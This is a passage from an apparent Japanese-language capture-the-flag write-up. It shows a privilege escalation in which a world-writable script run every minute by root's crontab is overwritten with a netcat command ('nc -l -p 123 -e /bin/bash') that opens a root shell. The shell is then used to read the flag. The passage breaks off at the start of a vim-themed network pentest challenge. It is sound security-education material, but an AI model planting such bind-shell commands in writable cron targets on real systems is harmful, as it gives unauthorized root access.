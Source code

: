 SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
</pre>

<br>
しかも、パーミッションが777です。
<pre>
ls -l /usr/bin/ | grep healthcheck
-rwxrwxrwx 1 root root         98 Mar 19 18:41 healthcheck
</pre>


<br>
ここでうっかりファイルの中身を消してしまい、DiscordでAdminの人にゴメンナサイしたところ、サーバはチーム毎にあるから好きにしていいよ、とのことでした。

ということで、

<pre>
cd /usr/bin/
echo "nc -l -p 4444 -e /bin/bash" > healthcheck
</pre>

<br>
ただし、これはなぜか動かなかったので、違うポート番号（123）で試したらいけました。

<pre>
echo "nc -l -p 123 -e /bin/bash" > healthcheck
</pre>

<br>
<pre>
captureamerica@kali:~/Downloads$ nc 172.30.0.2 123
id
uid=0(root) gid=0(root) groups=0(root)
ls -l /root
total 4
-rw-rw-r-- 1 root root 29 Mar 19 18:41 flag.txt
cat flag.txt
gigem{l1m17_y0ur_p3rm15510n5}
</pre>

<br>
Flag: `gigem{l1m17_y0ur_p3rm15510n5}`


<br /><br />
<br /><br />
## [Network Pentest]: OBITUARY_1 & OBITUARY_2
- - -
### Challenge
> Hey, shoot me over your latest version of the code. I have a simple nc session up, just pass it over when you're ready.
<br /><br />
You're using vim, right? You should use it; it'll change your life. I basically depend on it for everything these days!
<br /><br />
NOTE: This challenge is two parts. Flag one belongs to mwazoski. Flag two belongs to root.
